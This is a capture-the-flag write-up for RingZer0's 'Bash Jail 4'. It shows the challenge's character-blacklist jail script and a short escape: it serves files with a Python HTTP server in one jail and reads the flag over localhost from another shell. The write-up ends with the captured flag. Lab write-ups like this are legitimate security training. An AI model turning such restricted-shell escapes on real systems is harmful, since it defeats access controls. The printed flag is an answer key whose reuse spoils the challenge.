 # Bash Jail 4

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Jail Escaping
- **Points:** 4

## Provided Materials

- SSH credentials

## Solution

Challenge bash code:

```sh
WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

function check_space {
	if [[ $1 == *[bdksc'/''<''>''&''$']* ]]
	then 	
    		return 0
	fi

	return 1
}

while :
do
	echo "Your input:"
	read input
	if check_space "$input" 
	then
		echo -e '\033[0;31mRestricted characters has been used\033[0m'
	else
		output=`$input < /dev/null` &>/dev/null
		echo "Command executed"
	fi
done 
```

We can't use now stream redirection and the `output` command sends now our output to `/dev/null`. But we could establish `bash` shell in `level1`, so in our `level4` shell we can start `python` server and request the flag from the `level1` shell.

`level4`:

```sh
Your input:
python -m SimpleHTTPServer 12345
```

`level1`:

```sh
Your input:
bash
level1@jail-bash:~$ python >&0
>>> import urllib2
>>> urllib2.urlopen("http://127.0.0.1:12345/flag.txt").read()
'FLAG-OTQKB0274fwtxk3v2rTLCd0l5v7KNp7F\n'
```


## Final Flag

`FLAG-OTQKB0274fwtxk3v2rTLCd0l5v7KNp7F`

*Created by [bu19akov](https://github.com/bu19akov)*